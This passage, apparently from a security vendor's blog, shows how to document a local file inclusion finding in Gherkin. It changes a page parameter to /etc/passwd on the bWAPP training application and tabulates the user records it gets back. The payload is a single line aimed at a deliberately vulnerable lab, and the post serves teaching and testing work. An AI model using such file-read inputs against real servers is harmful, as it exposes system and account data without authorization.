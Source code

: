 <div>
<cta-banner
buttontxt="Read more"
link="/solutions/vulnerability-management/"
title="Get started with Fluid Attacks' Vulnerability Management solution
right now"
/>
</div>

But wait. The server is not just `` `floating'' in space:
it lives inside a `GNU/Linux `` machine. And 'everything' in such an
`OS` is a file, many of which are plain-text files. One of them is of
particular importance:
[`/etc/passwd`](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/),
which stores information about users. Let us try to display it in this
page, setting `page=/etc/passwd`:

<div class="imgblock">

!["Viewing the contents of a system file in the page"](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330881/blog/gherkin-steroids/passwd_r3cgvo.webp)

<div class="title">

Figure 3. Listing users in the `bWAPP` servers

</div>

</div>

We can document that using `Gherkin` data tables, in a scenario of its
own, due to the importance of the finding:

**Documenting a particular exploitation.**

``` gherkin
  Scenario: Users record extraction
    When I change the page=message.txt parameter to page=/etc/passwd
    Then we retrieve the following user records:

    # Records extracted
    | username | pw? | UID | GID | info | home | shell |
    | root     | x | 0 | 0 | root | /root | /bin/bash |
    | daemon   | x | 1 | 1 | daemon | /usr/sbin | /usr/sbin/nologin |
    | bin      | x | 2 | 2 | bin | /bin | /usr/sbin/nologin |
    | sys      | x | 3 | 3 | sys | /dev | /usr/sbin/nologin |
    | sync     | x | 4 | 65534 | sync | /bin | /bin/sync |
    | games    | x | 5 | 60 | games | /usr/games | /usr/sbin/nologin |
    | man      | x | 6 | 12 | man | /var/cache/man | /usr/sbin/nologin |
    | lp       | x | 7 | 7 | lp | /var/spool/lpd | /usr/sbin/nologin |
    | mail     | x | 8 | 8 | mail | /var/mail | /usr/sbin/nologin |
    | news     | x | 9 | 9 | news | /var/spool/news | /usr/sbin/nologin |
    | uucp     | x | 10 | 10 | uucp | /var/spool/uucp | /usr/sbin/nologin |
    | proxy    | x | 13 | 13 | proxy | /bin | /usr/sbin/nologin |
    | www-data | x | 33 | 33 | www-data | /var/www | /usr/sbin/nologin |
    | backup   | x | 34 | 34 | backup | /var/backups | /usr/sbin/nologin |
    | list     | x | 38 | 38 | Mailing List Manager | /var/list | /usr/sbin/nologin |
    | irc      | x | 39 | 39 | ircd | /var/run/ircd | /usr/sbin/nologin |
    | gnats    | x | 41 | 41 | Gnats Bug-Reporting System (admin) | /var/lib/gnats | /usr/sbin/nologin |
```
